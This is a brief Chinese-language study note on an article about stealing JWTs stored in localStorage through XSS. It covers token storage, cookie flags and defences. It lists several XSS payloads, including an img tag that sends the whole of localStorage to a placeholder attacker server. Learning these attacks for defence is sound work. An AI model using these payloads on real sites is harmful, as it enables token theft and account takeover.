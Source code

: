 

阅读下文有感： 
https://medium.com/redteam/stealing-jwts-in-localstorage-via-xss-6048d91378a0 


jwt设置的位置：
cookies SET-COOKIE
JWT  AUTHORIZATION 

jwt存储位置：
localStorage/sessionStorage
后者在关闭浏览器之前存在

一般的cookie防护(httponly,secure,path,domain)  

几种XSS方式：
<script>alert(document.cookie)</script>
<script>alert(localStorage)</script>
<script>alert(localStorage.getItem(‘key’))</script>
<script>alert(localStorage.getItem(‘ServiceProvider.kdciaasdkfaeanfaegfpe23.username@company.com.accessToken’))</script>
<script>alert(JSON.stringify(localStorage))</script>
<img src=’https://<attacker-server>/yikes?jwt=’+JSON.stringify(localStorage);’--!>

一些防护方法： 
不要在localstorage中保存敏感信息  
Consider using the cookie header over the authorisation header.   							
Set your cookie header protections.  
Never render the token on screen, in URLs and/or in source code.  (不要在页面中(包括url)显示 token,无论是最终显示出来的页面还是源码中)
